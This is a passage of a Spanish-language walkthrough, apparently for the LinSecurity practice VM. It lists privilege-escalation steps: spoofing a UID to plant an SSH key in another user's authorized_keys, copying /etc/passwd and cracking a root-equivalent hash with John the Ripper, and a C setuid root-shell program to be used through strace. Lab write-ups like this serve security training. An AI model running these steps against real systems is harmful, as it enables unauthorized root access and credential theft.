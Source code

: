 ```
$ usermod -u 1001 mrandrew
```   
8. Una vez cambiado el UID ingreso a mi usuario mrandrew y creo una llave ssh así:
```
$ ssh-keygen -t rsa -b 2048
```
9. luego entro a la carpeta “/root/linsec” y creo una carpeta de nombre “.ssh”
10. Ahora solo me queda copiar esa clave ssh que cree en un archivo de nombre "authorized_keys" y lo pego dentro de la carpeta “.ssh” de “linsec” de esta manera:
```
$ cp /home/mrandrew/.ssh/id_rsa.pub authorized_keys
```
11. una vez copiado el archivo dentro de la ruta:
```
mrandrew@kali:/root/linsec/.ssh$
```
12. podemos ingresar por medio de ssh con el usuario "peter" así:
```
$ ssh peter@192.168.0.22
```
13. Entonces lo que hago es coger todo el contenido de “etc/passwd” y lo guardo en un archivo dentro de mi maquina kali, esto es con el obetivo de decifrar el HASH ya que hay un usuario que se llama “linsecurity” que tiene un UID y GUID como usuario "root"
14. Ahora para decifrar ese HASH usare “John de ripper” y es así:
```
$ john --wordlist=/root/rockyou.txt hashlinsec
```
15. Como resultado sale que el usuario “linsecurity” tiene la password “P@ssw0rd”
16. Entonces en la sesion “ssh” con el usuario "peter" ingreso a ese usuario de esta manera:
```
$ su linsecurity
```
17. Y ya tendria permisos root


## Segunda forma de usar John de ripper

1. Hay otra forma de usar “John de ripper” y esta:
```
$ john --format=crypt --show linsec.txt
$ john --format=crypt --show linsec
```
2. Y el resultado seria este:
```
insecurity:P@ssw0rd:0:0::/:/bin/sh
1 password hash cracked, 0 left
```

## Segunda forma de elevar privilegios

1. El usuario “peter” puede ejecutar “/usr/bin/strace”
2. Con eso podemos escribir un script para levantar privilegios y es con lenguaje C que se llame por ejemplo “root.c” y es asì:
```
#include <stdlib.h>
#include <unistd.h>

int main() {
   setuid(0);
   setgid(0);
   system("/bin/bash");
}
```
3. Luego lo debemos de compilar de esta manera:
```
$ gcc root.c -o root.out
```